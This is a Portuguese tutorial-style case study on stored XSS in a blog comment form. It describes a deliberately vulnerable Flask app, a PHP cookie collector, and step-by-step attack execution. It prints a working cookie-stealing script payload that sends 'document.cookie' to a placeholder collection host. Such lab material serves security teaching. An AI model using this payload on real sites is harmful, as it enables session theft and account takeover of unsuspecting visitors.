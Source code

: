 # Estudo de Caso: Vulnerabilidade em Formulário de Comentários (Sugestão: Utilizar o SO Linux ou equivalentes)

# Ataque de XSS persistente:
Um ataque de XSS persistente ocorre quando um script malicioso é injetado e armazenado no servidor de um site vulnerável, como em um campo de comentário ou perfil de usuário, e é então executado no navegador de qualquer usuário que acesse o conteúdo afetado. Este tipo de ataque é também conhecido como XSS armazenado e é considerado o mais perigoso, pois não requer uma interação direta ou um link malicioso da vítima, podendo afetar muitos usuários sem que eles saibam, e o script malicioso pode roubar informações confidenciais ou tomar controle do navegador do usuário. 
Como funciona um ataque de XSS persistente

Injeção do código: Um invasor injeta um script malicioso (payload) em um campo de entrada de um site, como um fórum de mensagens, comentários de blogs ou perfis de usuários. 

Armazenamento: O script é então salvo permanentemente no servidor do site ou no banco de dados da aplicação web. 

Execução: Quando outros usuários visitam a página afetada, seus navegadores carregam o conteúdo com o script malicioso e o executam. 

Consequências
Roubo de dados: O script pode roubar cookies, credenciais de login ou outras informações sensíveis do usuário e enviá-las de volta ao invasor. 

Ataques mais amplos: Como o script é armazenado e executado automaticamente toda vez que a página é acessada, ele pode afetar um grande número de usuários simultaneamente. 

Comprometimento da sessão: Pode roubar o cookie de sessão do usuário, permitindo que o invasor tome controle da conta sem que a vítima precise fazer login. 

Exemplos de pontos de injeção 

Campos de comentários em um blog.

Perfis de usuários em redes sociais.

Fóruns de mensagens.

Campos de nome de usuário ou outros formulários de entrada.

Diferença para XSS refletido

Ao contrário de um ataque de XSS refletido, onde o script é enviado para a vítima através de um link malicioso e não é armazenado, um XSS persistente armazena o script, tornando-o um risco constante para qualquer usuário que visite a página. 

# Cenário:

Imagine uma aplicação de blog simples que permite aos usuários postar comentários em artigos. O formulário de comentários tem um campo de texto para o nome do usuário e outro para o conteúdo do comentário. O código do servidor recebe esses dados e os insere diretamente em uma página HTML que é exibida para outros usuários, sem qualquer tipo de validação ou sanitização.

Para executar o estudo de caso de vulnerabilidade em formulários de comentários e demonstrar o ataque de XSS persistente, você precisará simular o ambiente de uma aplicação web vulnerável.

A vulnerabilidade ocorre quando a aplicação não sanitiza a entrada do usuário antes de armazená-la no banco de dados e exibi-la para outros usuários.

# Passo 1: Simulação da Aplicação Vulnerável

Primeiro, você precisa de um código de servidor simples que tenha a vulnerabilidade. Usarei um exemplo em Python com o framework Flask, que é fácil de configurar.

Código Python (app.py):

Observação sobre a vulnerabilidade: A linha {{ comment | safe }} no template é intencionalmente vulnerável. O filtro | safe no Jinja2 (motor de template do Flask) desabilita a sanitização automática, fazendo com que o HTML injetado seja renderizado.

Executar: Precisa do python instalado 

(base) alex@iMac-de-Alex example_01 % python3 app.py 
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 647-019-061



# Passo 2: Configurando o Servidor de Coleta de Cookies

Para demonstrar o roubo de cookies, você precisa de um servidor que "colete" as requisições maliciosas. Rodar o arquivo .php em um servidor Web (Ex.: Apache)

Código PHP (coletar_cookie.php):

Este script simplesmente pega o valor do cookie da URL e o salva em um arquivo de texto no servidor.

# Passo 3: Execução do Ataque

Com os dois servidores prontos, siga os passos abaixo para realizar o ataque:

Inicie o servidor da aplicação vulnerável: Execute python app.py no seu terminal. Ele estará rodando em http://127.0.0.1:5000.

Inicie o servidor de coleta de cookies: Coloque o arquivo coletar_cookie.php em um servidor web (como Apache ou Nginx) ou use uma ferramenta de tunelamento como o ngrok para expor seu servidor local à internet. Anote a URL.

Acesse a página vulnerável em http://127.0.0.1:5000.

Crie a carga maliciosa: No campo de comentário, insira o seguinte script. Substitua http://seu-servidor-de-coleta.com pela URL do seu servidor Flask.

HTML
<script>
    document.write('<img src="http://seu-servidor-de-coleta.com/coletar_cookie.php?cookie=' + document.cookie + '">');
</script>

Envie o comentário: Clique em "Enviar". A página irá recarregar e exibir a mensagem de sucesso.

Verifique o ataque: Volte para a página inicial da aplicação (http://127.0.0.1:5000). O navegador, ao renderizar o comentário, executará o script. Ele tentará carregar a imagem, o que fará uma requisição GET para o seu servidor de coleta, enviando o cookie.

Confirme o sucesso: Verifique o seu servidor de coleta. O arquivo cookies_roubados.txt deve ter sido criado e conter o cookie roubado.
